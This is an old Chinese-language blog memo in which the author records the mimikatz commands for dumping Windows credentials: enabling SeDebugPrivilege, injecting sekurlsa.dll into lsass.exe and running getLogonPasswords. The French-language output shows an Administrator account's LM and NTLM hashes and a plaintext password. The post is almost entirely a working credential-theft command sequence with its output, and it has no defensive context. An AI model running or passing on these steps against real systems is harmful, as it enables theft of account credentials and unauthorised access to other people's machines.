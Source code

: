 title: mimikatz读取密码或者LM HASH
categories: [网络安全]
tags: [mimikatz]
date: 2012-12-19 10:09:00
---
<p><br /></p><p>命令一直忘，记录下来吧。<br /></p><p><br /></p><p>mimikatz&nbsp;1.0&nbsp;x86&nbsp;(alpha)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/*&nbsp;Traitement&nbsp;du&nbsp;Kiwi&nbsp;(Feb&nbsp;&nbsp;9&nbsp;2012&nbsp;01:46:57)&nbsp;*/<br />//&nbsp;http://blog.gentilkiwi.com/mimikatz<br /><br />mimikatz&nbsp;#&nbsp;privilege::debug<br />Demande&nbsp;d&#39;ACTIVATION&nbsp;du&nbsp;privilège&nbsp;:&nbsp;SeDebugPrivilege&nbsp;:&nbsp;OK<br /><br />mimikatz&nbsp;#&nbsp;inject::process&nbsp;lsass.exe&nbsp;sekurlsa.dll<br />PROCESSENTRY32(lsass.exe).th32ProcessID&nbsp;=&nbsp;1164<br />Attente&nbsp;de&nbsp;connexion&nbsp;du&nbsp;client...<br />Serveur&nbsp;connecté&nbsp;à&nbsp;un&nbsp;client&nbsp;!<br />Message&nbsp;du&nbsp;processus&nbsp;:<br />Bienvenue&nbsp;dans&nbsp;un&nbsp;processus&nbsp;distant<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Gentil&nbsp;Kiwi<br /><br />SekurLSA&nbsp;:&nbsp;librairie&nbsp;de&nbsp;manipulation&nbsp;des&nbsp;données&nbsp;de&nbsp;sécurités&nbsp;dans&nbsp;LSASS<br /><br />mimikatz&nbsp;#&nbsp;@getLogonPasswords<br /><br />Authentification&nbsp;Id&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;0;218411<br />Package&nbsp;d&#39;authentification&nbsp;&nbsp;:&nbsp;NTLM<br />Utilisateur&nbsp;principal&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;ANONYMOUS&nbsp;LOGON<br />Domaine&nbsp;d&#39;authentification&nbsp;&nbsp;:&nbsp;NT&nbsp;AUTHORITY<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msv1_0&nbsp;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;n.t.&nbsp;(LUID&nbsp;KO)<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;wdigest&nbsp;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;n.t.&nbsp;(LUID&nbsp;KO)<br /><br />Authentification&nbsp;Id&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;0;87064<br />Package&nbsp;d&#39;authentification&nbsp;&nbsp;:&nbsp;NTLM<br />Utilisateur&nbsp;principal&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;Administrator<br />Domaine&nbsp;d&#39;authentification&nbsp;&nbsp;:&nbsp;思密达<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msv1_0&nbsp;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;lm{&nbsp;93a4f02839e824417584248b8d2c9f9e&nbsp;},&nbsp;ntlm{&nbsp;d9640e9219<br />712c8788ce086c6db63592&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;wdigest&nbsp;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;123456<br /></p><p><br /></p>